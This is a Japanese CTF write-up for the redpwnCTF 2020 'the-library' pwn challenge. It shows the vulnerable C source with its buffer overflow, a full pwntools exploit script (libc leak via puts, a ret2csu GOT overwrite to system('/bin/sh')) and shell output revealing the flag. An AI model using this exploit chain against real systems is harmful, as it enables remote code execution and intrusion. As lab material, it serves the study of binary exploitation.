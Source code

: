 # the-library (249 solves / 424 points)

> There's not a lot of useful functions in the binary itself. I wonder where you can get some...

libc.so.6, the-library, the-library.cが添付されていた。

## solution

the-library.cの内容は以下の通り

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to the library... What's your name?");

  read(0, name, 0x100);
  puts("Hello there: ");
  puts(name);
}
```

BOFの脆弱性がある。libcがわかっているためlibcのベースアドレスをリークさせて`system('/bin/sh')`を実行させるだけでいい

```python
# solve.py
from pwn import *

elf = ELF('./the-library')
libc = ELF('./libc.so.6')

offset = 24

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
read_got = elf.got['read']
ret_gadget = 0x400506
pop_rdi = 0x400733
pop_regs = 0x40072a
call_r12 = 0x400710

payload = b'A' * offset
# leak libc
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
# ret2csu -> GOT overwrite
payload += p64(pop_regs)
payload += p64(0x0)      # rbx
payload += p64(0x1)      # rbp
payload += p64(read_got) # r12 => func addr
payload += p64(0x0)      # r13 => rdi
payload += p64(puts_got) # r14 => rsi
payload += p64(0x10)     # r15 => rdx
payload += p64(call_r12)
payload += p64(0xdeadbeef) # dummy (add rsp, 0x8)
payload += p64(0x0) # rbx
payload += p64(0x0) # rbp
payload += p64(0x0) # r12
payload += p64(0x0) # r13
payload += p64(0x0) # r14
payload += p64(0x0) # r15
payload += p64(ret_gadget) # rsp align
# exec system('/bin/sh')
payload += p64(pop_rdi)
payload += p64(puts_got + 8) # rdi <= '/bin/sh'
payload += p64(puts_plt)

#p = process('./the-library')
p = remote('2020.redpwnc.tf', 31350)

p.readuntil('What\'s your name?')
p.sendline(payload)
p.readlines(3)

libc_puts = u64(p.readline().strip().ljust(8, b'\x00'))
libc_base = libc_puts - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
libc_binsh = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc = {hex(libc_base)}")

payload = p64(libc_system) + b'/bin/sh\x00'
p.sendline(payload)

p.interactive()
```

流れを簡単に説明すると
1. putsのgotアドレスを表示させることで、libcをリークする。
2. __libc_csu_initを使いread関数を呼び出し、putsのgotをsystem関数のアドレスに書き換える。
3. putsのpltを呼び出し、system関数を実行する。

このようなことを行なっている。

```
$ python solve.py
...
[+] Opening connection to 2020.redpwnc.tf on port 31350: Done
[*] libc = 0x7fb4ed95e000
[*] Switching to interactive mode
$ ls
Makefile
bin
dev
flag.txt
lib
lib32
lib64
libc.so.6
the-library
the-library.c
$ cat flag.txt
flag{jump_1nt0_th3_l1brary}
$
```
